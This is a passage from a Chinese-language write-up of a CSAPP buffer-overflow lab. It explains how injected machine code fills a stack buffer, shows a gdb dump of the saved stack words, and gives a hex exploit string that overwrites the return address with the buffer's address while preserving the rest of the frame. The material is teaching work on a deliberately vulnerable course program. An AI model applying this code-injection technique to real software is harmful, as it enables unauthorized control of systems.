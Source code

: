 生成的机器代码一共是11个字节，再加上一个对齐字节凑足12字节，可以看到这时已经填满了char字符串的缓冲区。与上一个问题相同，还要用char字符串首地址`0xffffb96c`覆盖原来的返回地址，以便于执行注入的指令。但这里还要注意一点，为了保证栈不被破坏，除了必要的修改，我们必须保持其他的栈字保存不变，先打印出原来的数据：

```powershell
(gdb) x/24xb 0xffffb96c
0xffffb96c:     0x31    0x32    0x33    0x34    0x00    0x00    0x00    0x00
0xffffb974:     0xc0    0xb5    0x04    0x08    0x98    0xb9    0xff    0xff
0xffffb97c:     0x1e    0x90    0x04    0x08    0x03    0x00    0x00    0x00
```

构造攻击代码：

```assembly
// exploit3.txt
b8 5a 2f 93 58 68 1e 90 
04 08 c3 00 98 b9 ff ff
6c b9 ff ff 03 00 00 00
```

转成字符串并运行：

![](csapp-lab1-2-3/image-20221029210254503.png)

